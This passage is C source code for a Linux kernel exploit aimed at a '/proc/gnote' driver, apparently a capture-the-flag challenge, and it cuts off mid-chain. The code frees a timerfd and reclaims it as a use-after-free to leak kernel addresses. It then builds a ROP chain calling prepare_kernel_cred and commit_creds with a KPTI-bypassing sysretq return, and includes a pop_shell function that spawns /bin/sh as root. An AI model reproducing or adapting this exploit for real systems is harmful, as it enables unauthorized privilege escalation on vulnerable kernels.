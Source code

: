 ```c
    asm volatile("movl %1, %%eax\n"
                 "movl %2, %%edi\n"
                 "movl %3, %%esi\n"
                 "syscall\n"
                 "movl %%eax, %0\n"
                 : "=r" (ret)
                 : "r" (sysno), "r" (clockid), "r" (flags)
                 : "rax", "rdi", "rsi", "rcx"
            );
    return ret;
}

void pop_shell() {
    char* argv[] = {"/bin/sh", 0};
    execve(argv[0], argv, 0);
}

int main() {
    int fd = open("/proc/gnote", O_RDWR);

    struct itimerspec timespec = { {0, 0}, {100, 0}};
    int tfd = timerfd_create(CLOCK_REALTIME, 0);
    timerfd_settime(tfd, 0, &timespec, 0); // alloc timerfd with function pointer
    close(tfd); // kfree timerfd
    sleep(1); // trigger rcu grace period

    unsigned int buf[2] = {1, 0x100};
    write(fd, buf, sizeof(buf)); // alloc 0x100 note to reclaim timerfd
    
    buf[0] = 5;
    buf[1] = 0;
    write(fd, buf, sizeof(buf)); // select note i

    unsigned long raw_leak[0x100/8] = {0};
    read(fd, raw_leak, sizeof(raw_leak));

    unsigned long kern = raw_leak[5]-0x15a2f0;
    unsigned long prepare_kernel_cred = kern+0x69fe0;
    unsigned long commit_creds = kern+0x69df0;
    // 0xffffffff8101992a : xchg eax, esp ; ret
    unsigned long pivot = kern+0x1992a;
    // 0xffffffff8101c20d : pop rdi ; ret
    unsigned long pop_rdi = kern+0x1c20d;
    // 0xffffffff8121ca6a : cmp rcx, rsi ; mov rdi, rax ; ja 0xffffffff8121ca66 ; pop rbp ; ret
    unsigned long mov_rdi_rax = kern+0x21ca6a;
    // 0xffffffff81037523 : pop rcx ; ret
    unsigned long pop_rcx = kern+0x37523;
    // 0xffffffff811025c8 : pop r11 ; pop rbp ; ret
    unsigned long pop_r11 = kern+0x1025c8;
    // mov rdi, cr3 ; or rdi, 0x1000 ; mov cr3, rdi ; pop rax ; pop rdi ; pop rsp ; swapgs ; sysretq
    unsigned long sysretq = kern+0x600116;

    unsigned long* fake_stack = (unsigned long*)((unsigned long)pivot&0xffffffff);
    mmap((void*)(((unsigned long)fake_stack&~0xfff)-0x10000), 0x20000, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    unsigned long* rop = fake_stack;
    *rop++ = pop_rdi;
    *rop++ = 0;
    *rop++ = prepare_kernel_cred;
    *rop++ = mov_rdi_rax;    
    *rop++ = 0;
    *rop++ = commit_creds;
```